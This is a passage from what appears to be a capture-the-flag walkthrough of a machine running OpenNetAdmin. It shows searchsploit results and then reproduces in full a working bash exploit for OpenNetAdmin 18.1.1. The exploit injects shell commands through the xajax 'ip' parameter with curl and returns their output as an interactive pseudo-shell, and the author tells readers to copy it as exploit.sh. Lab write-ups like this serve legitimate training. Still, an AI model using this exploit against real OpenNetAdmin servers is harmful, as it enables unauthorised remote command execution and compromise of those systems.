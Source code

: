 <center><br>
<img src="/assets/img/uploads/openadmin/ona.png">
</center>

On looking on searchsploit, we see a vulnerable version which gives us remote command execution.

```r
m1m3@kali:~$ searchsploit OpenNetAdmin
--------------------------------------- ---------------------------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ---------------------------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                 | exploits/php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)  | exploits/php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                   | exploits/php/webapps/47691.sh
--------------------------------------- ---------------------------------------------------------
```

For some reason, the exploit was not working for me, so instead I copied the exploit from the exploitdb. You can copy the following exploit and save it as <i>exploit.sh</i>

```sh
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux
 
# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux
 
#!/bin/bash
 
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

